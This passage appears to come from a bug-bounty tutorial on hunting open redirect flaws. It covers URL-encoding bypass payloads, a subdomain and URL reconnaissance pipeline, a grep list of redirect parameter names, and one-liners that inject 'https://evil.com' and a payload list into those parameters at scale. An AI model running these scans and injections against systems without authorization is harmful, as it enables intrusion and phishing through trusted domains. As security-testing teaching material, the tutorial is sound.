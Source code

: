 /%E2%80%http://8Egoogle.com → Unicode injection
/%C2%http://A0google.com → More unicode obfuscation
Automated Tools for Scanning
Reconnaissance
Collect multiple active and passive URLs from all available tools and sources.

For single domain:

echo target.com | gau --o urls1.txt
echo target.com | katana -d 2 -o urls2.txt
echo target.com | urlfinder -o urls3.txt
echo target.com | hakrawler > urls4.txt
For multiple subdomains:

subfinder -d target.com -all -o subdomains1.txt
assetfinder --subs-only target.com > subdomains2.txt
sort -u subdomains.txt subdomains2.txt -o uniqsubs.txt
cat uniqsubs.txt | httpx-toolkit -o finallist.txt

cat finallist.txt | gau --o urls1.txt
cat finallist.txt | katana -d 2 -o urls2.txt
cat finallist.txt | urlfinder -o urls3.txt
cat finallist.txt | hakrawler > urls4.txt
After collecting all the URLs its time to filter out duplicates and sort them.

cat urls1.txt urls2.txt urls3.txt | uro | sort -u | tee final.txt
Filtering URLs for Redirect Parameters
Using the grep command to filter out all open redirect parameters used for redirections:

cat final.txt | grep -Pi "returnUrl=|continue=|dest=|destination=|forward=|go=|goto=|login\?to=|login_url=|logout=|next=|next_page=|out=|g=|redir=|redirect=|redirect_to=|redirect_uri=|redirect_url=|return=|returnTo=|return_path=|return_to=|return_url=|rurl=|site=|target=|to=|uri=|url=|qurl=|rit_url=|jump=|jump_url=|originUrl=|origin=|Url=|desturl=|u=|Redirect=|location=|ReturnUrl=|redirect_url=|redirect_to=|forward_to=|forward_url=|destination_url=|jump_to=|go_to=|goto_url=|target_url=|redirect_link=" | tee redirect_params.txt
A more effective approach is to use the gf tool pattern to filter only open redirect parameters with the following command:

final.txt | gf redirect | uro | sort -u | tee redirect_params.txt
GFpattren/redirect.json at main · coffinxp/GFpattren
Contribute to coffinxp/GFpattren development by creating an account on GitHub.
github.com

Now its time for the final exploitation phase. Lets identify potential payloads and test for successful redirections

cat redirect_params.txt | qsreplace "https://evil.com" | httpx-toolkit -silent -fr -mr "evil.com"
Or you can also achieve same using the following method:

subfinder -d vulnweb.com -all | httpx-toolkit -silent | gau | gf redirect | uro | qsreplace "https://evil.com" | httpx-toolkit -silent -fr -mr "evil.com"

It will display all the URLs that redirect to evil.com on the screen.

To scan for all open redirect bypass payloads from my custom list use the following command:

cat redirect_params.txt | while read url; do cat loxs/payloads/or.txt | while read payload; do echo "$url" | qsreplace "$payload"; done; done | httpx-toolkit -silent -fr -mr "google.com"
